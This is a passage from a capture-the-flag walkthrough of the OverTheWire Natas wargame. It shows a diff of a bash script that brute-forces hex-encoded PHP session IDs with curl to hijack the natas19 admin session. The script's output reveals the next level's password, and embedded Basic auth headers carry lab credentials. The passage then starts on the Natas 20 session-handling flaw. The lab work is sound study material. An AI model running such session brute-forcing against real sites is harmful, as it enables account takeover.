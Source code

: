 ```diff
--- ../natas18/highjacker.sh    2020-04-10 16:48:59.000000000 -0300
+++ highjacker.sh       2020-04-10 17:46:33.000000000 -0300
@@ -6,11 +6,12 @@
 
 while [[ $pwned = 0 ]]; do
   if [[ $num = 640 ]]; then pwned=1; fi
+  hexnum=$(printf "$num-admin" | xxd -p)
 
-  RESPONSE=$(curl 'http://natas18.natas.labs.overthewire.org/index.php' \
-    -H 'Authorization: Basic bmF0YXMxODp4dktJcURqeTRPUHY3d0NSZ0RsbWowcEZzQ3NEamhkUA==' \
-    -H 'Referer: http://natas18.natas.labs.overthewire.org/' \
-    -H "Cookie: PHPSESSID=$num" \
+  RESPONSE=$(curl 'http://natas19.natas.labs.overthewire.org/index.php' \
+    -H 'Authorization: Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==' \
+    -H 'Referer: http://natas19.natas.labs.overthewire.org/' \
+    -H "Cookie: PHPSESSID=$hexnum" \
     --silent \
     --data 'username=admin&password=asdfasdf')
```

And like so:

```
...
Attempt with 277 failed
Attempt with 278 failed
Attempt with 279 failed
Attempt with 280 failed
Succeeded with 281:
 </html> an admin. The credentials for the next level are:<br><pre>Username: natas20 Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF</pre></div>script>
```

## Natas 20 - poison pill

Natas 20 is rather simple. From reading the source code we see many distractions, but the point of focus is the print_credentials method that shows us that if there is a session with key `admin` and value `1` the admin creds will be displayed.

```php
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas21\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
    }
}
```

 We also notice that the coder decided to implement the session loading and persistence on his own.
